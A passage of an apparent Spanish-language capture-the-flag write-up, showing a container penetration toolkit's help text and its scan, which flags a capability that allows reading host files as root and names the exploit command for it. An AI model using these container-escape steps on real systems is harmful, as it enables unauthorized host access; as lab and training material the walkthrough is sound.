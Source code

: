 ```ruby
> root@c150397ccd63:~# md5sum cdk 
6faa6f0103f8c46a54d0fa80f00ee74a  cdk
> root@c150397ccd63:~# chmod +x cdk
> root@c150397ccd63:~# ./cdk
> CDK (Container DucK)
CDK Version(GitCommit): 548ef65dd14313a27c2bef15b7d1bff57bf6a98c
Zero-dependency cloudnative k8s/docker/serverless penetration toolkit by cdxy & neargle
Find tutorial, configuration and use-case in https://github.com/cdk-team/CDK/wiki

Usage:
  cdk evaluate [--full]
  cdk eva [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk auto-escape <cmd>
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk eva                                   Alias of "cdk evaluate".
  cdk evaluate --full                       Enable file scan during information gathering.


Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.

Tool:
  vi <file>                                 Edit files in container like "vi" command.
  ps                                        Show process information like "ps -ef" command.
  nc [options]                              Create TCP tunnel.
  ifconfig                                  Show network information.
  kcurl <path> (get|post) <uri> [<data>]    Make request to K8s api-server.
  ectl <endpoint> get <key>                 Unauthorized enumeration of ectd keys.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
  probe <ip> <port> <parallel> <timeout-ms> TCP port scan, example: cdk probe 10.0.1.0-255 80,8080-9443 50 1000

Options:
  -h --help     Show this help msg.
  -v --version  Show version.
```

Vemos una opción que nos permite obtener información acerca de posibles vulnerabilidades

```ruby
> root@c150397ccd63:~# ./cdk eva --full
...[snip]...
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
...[snip]...
```
Encontro una <a href="https://www.incibe-cert.es/blog/linux-capabilities" target="_blank">Capability</a> que nos permite leer archivos de la máquina real como root 
